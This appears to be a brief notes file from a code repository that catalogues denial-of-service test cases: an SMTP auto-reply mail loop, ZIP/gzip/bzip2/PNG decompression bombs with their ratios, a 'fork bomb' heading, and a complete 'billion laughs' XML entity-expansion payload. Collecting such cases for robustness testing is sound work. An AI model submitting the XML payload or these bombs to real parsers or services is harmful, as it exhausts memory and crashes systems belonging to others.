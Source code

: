 * SMTP
A -> from: c@C to b@B
B -> from: b@B to c@C: vacation message
C -> from: c@C to b@B: vacation message

same for quota full,
user is not allowed, user does not exists

* ZIP
- Infinite zip
r.zip
- bombs
  simple bomb gzip 100 GigaByte 97 MegaByte 1000:1
  simple bomb bzip2 100 GigaByte 69745 Bytes 1.6e6:1
  PNG picture bomb deflate 19000 x 19000, 1-bit (45 MB) expand in 24-bit color to 1 GB
    44024 Bytes 1000:1

* XML
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>

* fork bomb
PostgreSQL 7.2


